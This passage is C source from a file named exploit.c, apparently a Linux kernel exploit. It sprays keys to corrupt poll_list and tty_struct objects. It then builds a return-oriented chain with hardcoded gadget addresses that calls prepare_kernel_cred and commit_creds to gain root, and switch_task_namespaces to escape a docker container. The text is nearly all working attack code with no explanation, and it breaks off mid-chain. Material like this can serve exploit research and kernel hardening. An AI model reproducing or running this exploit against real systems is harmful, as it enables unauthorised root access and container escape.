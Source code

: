 ```exploit.c
    memset(key_payload, 'X', SIZE_KEY_TOBE_OVERWRITTEN_SEQOPS);
    ((ulong*)key_payload)[0] = 0x9999999999999999; // debug
     _alloc_key_prefill_ulong_val = km1024_leaked - 0x18; // 0x18 is offset where `user_key_payload` can modify from

    for (int ix = 0; ix != NUM_2ND_KEY_SPRAY; ++ix) {
      alloc_key(key_payload, SIZE_KEY_TOBE_OVERWRITTEN_SEQOPS, _alloc_key_prefill_ulong);
    }
  }

  puts("[+] waiting corrupted `poll_list` is freed...");
  neverend = 0;
  for(int ix = 0; ix != NUM_2ND_POLLLIST_ALLOC; ++ix) {
    pthread_join(threads[ix], NULL);
  }

  // Free all keys
  for (int ix = 0; ix != NUM_2ND_KEY_SPRAY; ++ix) {
    free_key(keys[ix]);
  }
  puts("[+] waiting all keys are freed by GC...");
  sleep(1); // wait GC(security/keys/gc.c) actually frees keys

  // Spray keys in `kmalloc-1024`, one of which must be placed on `tty_struct`
  puts("[+] spraying keys in kmalloc-1024");
  assert(num_keys == 0);
  {
    char *key_payload = malloc(0x1000);
    ulong *buf = (ulong*)key_payload;
    buf[0] = 0x5401; // magic, kref (later `leave`ed and become RBP)
    buf[1] = KADDR(0xffffffff8191515a); // dev (later become ret addr of `leave` gadget, which is `pop rsp`)
    buf[2] = km1024_leaked + 0x50 + 0x120; // driver (MUST BE VALID) (later `pop rsp`ed)
    buf[3] = km1024_leaked + 0x50; // ops

    ulong *ops = (ulong*)(key_payload + 0x50);
    for (int ix = 0; ix != 0x120 / 8; ++ix) { // sizeof tty_operations
      ops[ix] = KADDR(0xffffffff81577609); // pop rsp
    }

    ulong *rop = (ulong*)((char*)ops + 0x120);
    *rop++ = KADDR(0xffffffff81906510); // pop rdi
    *rop++ = 0;
    *rop++ = KADDR(0xffffffff810ebc90); // prepare_kernel_cred

    *rop++ = KADDR(0xffffffff812c32a9); // pop rcx (to prevent later `rep`)
    *rop ++ = 0;
    *rop++ = KADDR(0xffffffff81a05e4b); // mov rdi, rax; rep movsq; (simple `mov rdi, rax` not found)
    *rop++ = KADDR(0xffffffff810eba40); // commit_creds

    *rop++ = KADDR(0xffffffff81906510); // pop rdi
    *rop++ = 1; // init process in docker container
    *rop++ = KADDR(0xffffffff810e4fc0); // find_task_by_vpid
    *rop++ = KADDR(0xffffffff812c32a9); // pop rcx (to prevent later `rep`)
    *rop ++ = 0;
    *rop++ = KADDR(0xffffffff81a05e4b); // mov rdi, rax; rep movsq; (simple `mov rdi, rax` not found)
    *rop++ = KADDR(0xffffffff819b21d3); // pop rsi
    *rop++ = KADDR(0xffffffff8245a720); // &init_nsproxy
    *rop++ = KADDR(0xffffffff810ea4e0); // switch_task_namespaces

    *rop++ = KADDR(0xffffffff81906510); // pop rdi
```